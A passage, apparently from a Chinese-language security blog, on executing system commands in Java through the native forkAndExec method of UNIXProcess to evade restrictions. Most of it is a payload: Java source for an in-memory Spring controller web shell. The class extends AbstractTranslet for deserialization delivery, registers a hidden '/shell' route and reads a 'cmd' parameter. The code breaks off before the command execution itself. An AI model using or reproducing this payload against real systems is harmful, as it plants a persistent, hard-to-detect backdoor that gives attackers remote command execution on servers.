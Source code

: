 
绕过的方法也很简单，直接到更底层即：`UNIXProcess`类(这个类只存在于linux和mac系统，并且在JDK9的时候把`UNIXProcess`合并到了`ProcessImpl`当中)

`UNIXProcess`和`ProcessImpl`其实就是最终调用native执行系统命令的类，这个类提供了一个叫`forkAndExec`的native方法，如方法名所述主要是通过`fork&exec`来执行本地系统命令
![](https://img-blog.csdnimg.cn/e4b668b70e694a08a9b2531c49e4f195.png)

最后执行命令的payload如下，写个Controller内存马，参考：[Java本地命令执行](https://javasec.org/javase/CommandExecution/)
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class InjectToController extends AbstractTranslet {

    public InjectToController() {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            Method method2 = InjectToController.class.getMethod("test");
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();

            Method getMappingForMethod = mappingHandlerMapping.getClass().getDeclaredMethod("getMappingForMethod", Method.class, Class.class);
            getMappingForMethod.setAccessible(true);
            RequestMappingInfo info = (RequestMappingInfo) getMappingForMethod.invoke(mappingHandlerMapping, method2, InjectToController.class);

            InjectToController springControllerMemShell = new InjectToController("aaa");
            mappingHandlerMapping.registerMapping(info, springControllerMemShell, method2);
        } catch (Exception e) {

        }
    }

    public InjectToController(String aaa) {
    }

    @RequestMapping("/shell")
    public void test() throws IOException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        String[] cmd = request.getParameterValues("cmd");
        if (cmd != null) {
```